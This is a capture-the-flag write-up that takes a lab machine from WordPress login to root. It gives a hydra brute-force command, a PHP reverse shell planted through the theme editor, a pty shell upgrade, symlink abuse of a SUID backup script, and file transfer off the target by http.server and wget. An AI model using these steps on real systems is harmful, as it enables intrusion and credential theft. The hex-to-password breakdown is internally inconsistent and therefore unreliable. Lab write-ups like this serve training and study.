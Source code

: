 
## Progression Tree (Exploit Flow)

![[Pasted image 20250501075251.png]]


## Detailed Steps for PWNING the Troll Machine

### STEP 1: Brute Forcing the WP login page


![[Pasted image 20250501081101.png]]

- It is essential to find valid username in order to brute force the login page.
- This can be achieved with variety of ways: 
	
	- Using a `json` endpoint
	
		![[Pasted image 20250501081558.png]]
	- Brute forcing the username is possible via the login form as the response varies for a valid vs an invalid account.
		- For an user that does not exist this the response we get the following error.
			 ![[Pasted image 20250501081824.png]]

		- Using default/common usernames we can make a guess for a valid user.
			![[Pasted image 20250501082054.png]]

- Now that we know a valid user we are going use hydra to bruteforce the login page
- Following is how the hydra command look like
	- `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt 10.10.104.139 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -v`
	- As you may have noticed instead of `rockyou.txt` list we are using `2023-200_most_used_passwords.txt`, this is because the `rockyou.txt` is massive and will take a lot time so i always prefer to start with smaller lists first.
	
	![[Pasted image 20250501082753.png]]
- And within couple of minutes we have our credentials which we will be using to login the admin panel.
- Credentials: admin:theworldinyourhand

### STEP 2: Getting RCE Via PHP SHELL Through ADMIN PANEL

- After logging in admin panel hover over tools, and select `Theme File Editor`.

	![[Pasted image 20250501175920.png]]

- After which select `Theme Functions`.
- From `revshell.com` I will copy the PHP payload (PHP PentestMoneky) to get RCE.
	
	![[Pasted image 20250501180423.png]]

	![[Pasted image 20250501180518.png]]

- Using netcat let's up open a listener to catch the shell.
	![[Pasted image 20250501180639.png]]
	(P.S Using rlwrap will allow you to cycle through commands that you give the target machine and will make you life a whole lot easier :D)
- Once we click `Update File` button in the `Edit Theme Panel` , we will get the shell.
	![[Pasted image 20250501180853.png]]

### STEP 3: Enumeration

- We see that their are two users on the Machine. 
	- Cypher
	- Robert
- We can't enter Robert's home directory but we can enter Cypher's home directory where we find an interesting file which has following content. File name `important.txt`
	- ![[Pasted image 20250501181145.png]]
- According to file Cypher has a habit of hiding password at random places across the system. Let's do some manual enumeration to find the password.
- In  `/etc` folder we find that there exists and unusual folder named `i` inside which following folders exists without any other file.
	![[Pasted image 20250501181524.png]]
- Interesting enough it does look like some password.
- Let's try switching user to Cypher with this password.
	- `ilikegames123`
	![[Pasted image 20250501181708.png]]
- And sure enough we were able to login as user Cypher.
- This gives us the first flag `user.txt` which inside Cypher's home directory.
(P.S You will need to make the shell interactive by using the following command `python3 -c 'import pty; pty.spawn("/bin/bash");'`)


### STEP 4: Analyzing and Abusing the backup script via Symlink

- According to the `important.txt` file there should be a backup script with suid bit which might be able to exploit to impersonate Robert.
- The `/opt/backup_scripts/backup ` script allows user to create a backup of any file inside `/var/log/` folder. It accepts path as argument and trying to break seems futile since there is input filtering in the script.
- But interestingly enough there is folder named `cypher` in `/var/log/` directory , which is owned by Cypher. 
- As cypher we can enter Robert's home directory and see an interesting binary `mysql_test_script` which we are not allowed to access.

- To exploit the backup script we are going to create a symlink in `/var/log/cypher/` folder which will be pointing towards `mysql_test_script`.
	![[Pasted image 20250501183044.png]]
	Command: `ln -sf /home/robert/mysql_test_script /var/log/cypher/script`
	
- After which we can run backup script to create a backup of the file in `/backup` folder
	![[Pasted image 20250501183152.png]]

### STEP 5: Using Ghidra to analyze the binary file

- On the target machine we will start a python server inside the `/backup` folder. Make sure you are in the `/backup` folder and execute the following command.
	![[Pasted image 20250501183901.png]]
	Command: `python -m http.server 9999 &`
(P.S Adding & will make sure that shell remains usable otherwise you will have to open a new connection )
- And on the attacker machine based on the file name execute the following 
	![[Pasted image 20250501183951.png]]
	Command: `wget http://10.10.147.108:9999/script_backup_20250501_130009`
(Or just visit http://10.10.147.108:9999/ in your browser and click on the file to download it.)

- Inside Ghidra we find the script is fairly simple. Going to the main function we we can see the command being used and make an educated guess what the password is being stored as.
	 ![[Pasted image 20250501184450.png]]
- Given: 
- local_28 = 0x6e656666306d6131
- local_20 = 0x39303165766973
- uStack_19 = 0x242439

- Step-by-Step Breakdown: 
 
 - local_28 = 0x6e656666306d6131
 - This hexadecimal number 0x6e656666306d6131 can be broken down into a sequence of 8 bytes:
 - Hex to ASCII Conversion: 
	 - 0x6e → n 
	 - 0x65 → e 
	 - 0x66 → f
	 - 0x66 → f
	 - 0x30 → 0 
	 - 0x6d → m
	 - 0x61 → a
	 - 0x31 → 1
 - This results in the ASCII string neffoma1
 
 - local_20 = 0x39303165766973 
 - This hexadecimal number 0x39303165766973 can be broken down into 8 bytes: 
 - Hex to ASCII Conversion: 
	 - 0x39 → 9 
	 - 0x30 → 0 
	 - 0x31 → 1 
	 - 0x65 → e 
	 - 0x76 → v 
	 - 0x69 → i 
	 - 0x73 → s

-  uStack_19 = 0x242439 
- This hexadecimal number 0x242439 can be broken down into 3 bytes:
- Hex to ASCII Conversion:
- 0x24 → $ 
- 0x24 → $ 
- 0x39 → 9 
- This results in the ASCII string `$$9`.

- We get the final password: `1am0ffens1ve1099$$`.

- Using the above credentials we were successfully able to login as the user `robert`
- We also find that user `robert` can execute commands as root. Hence we can get root.txt from /root directory now.
- Command : `sudo -i` will make us the root.

	![[Pasted image 20250501185701.png]]

- AND THE TROLL MACHINE HAS BEEN PWNED!